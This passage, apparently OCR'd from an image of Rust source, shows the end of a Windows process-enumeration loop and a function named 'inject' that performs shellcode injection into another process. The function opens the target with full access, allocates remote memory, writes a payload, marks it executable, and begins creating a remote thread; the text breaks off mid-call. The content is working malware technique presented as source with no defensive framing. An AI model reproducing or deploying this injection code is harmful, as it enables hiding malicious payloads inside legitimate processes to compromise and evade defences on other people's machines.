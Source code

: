 ```rust
                            }
                            pe32.szExeFile = [0; 260];
                            result_process32 = Process32Next(handle_procsnap, &mut pe32);
                        }
                        Err(error) => {
                            println!("Process32 Error: {}", error);
                            break;
                        }
                    }
                }
                let _ = CloseHandle(handle_procsnap);
            }

            Err(error) => {
                println!("CreateToolhelp32Snapshot Error: {}", error);
                return 0;
            }
        }
    }
    return 0;
}

fn inject(pid: u32, payload_ptr: *const c_void, payload_len: usize) {
    unsafe {
        let result_openprocess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        let mut old_protect: PAGE_PROTECTION_FLAGS = PAGE_PROTECTION_FLAGS(0);

        match result_openprocess {
            Ok(handle_process) => {
                let remotememory_ptr: *mut c_void = VirtualAllocEx(
                    handle_process,
                    None,
                    payload_len,
                    MEM_COMMIT,
                    PAGE_READWRITE,
                );

                if !remotememory_ptr.is_null() {
                    println!("Allocated Memory Address: {:p}", remotememory_ptr);

                    let result_writeprocessmemory = WriteProcessMemory(
                        handle_process,
                        remotememory_ptr,
                        payload_ptr,
                        payload_len,
                        None,
                    );

                    match result_writeprocessmemory {
                        Ok(()) => {
                            let result_virtualprotectex = VirtualProtectEx(
                                handle_process,
                                remotememory_ptr,
                                payload_len,
                                PAGE_EXECUTE_READ,
                                &mut old_protect,
                            );

                            match result_virtualprotectex {
                                Ok(()) => {
                                    let result_createremotethread = CreateRemoteThread(
                                        handle_process,
                                        None,
```
